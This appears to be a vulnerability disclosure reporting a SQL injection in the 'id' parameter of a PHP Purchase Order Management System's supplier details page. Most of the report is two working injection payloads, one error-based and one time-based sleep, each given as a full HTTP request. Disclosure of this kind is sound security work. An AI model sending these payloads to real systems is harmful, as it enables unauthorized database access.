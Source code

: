 # Purchase Order Management System v1.0 has SQL injection

BUG_Author:zito

Website source address:https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability File: /purchase_order/admin/suppliers/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x717273,(select (elt(333=333,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'b'='b

```
GET /purchase_order/admin/suppliers/view_details.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x717273,(select%20(elt(333=333,1))),0x65666768,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27b%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fd29fhrp156i09e1labjjoora0
Connection: close
```

Injection success based on errors

![image](https://github.com/zitozito1/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(10)))x) and 'c'='c

```
GET /purchase_order/admin/suppliers/view_details.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))x)%20and%20%27c%27=%27c HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=fd29fhrp156i09e1labjjoora0
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/zitozito1/bug_report/blob/main/sql2.png)

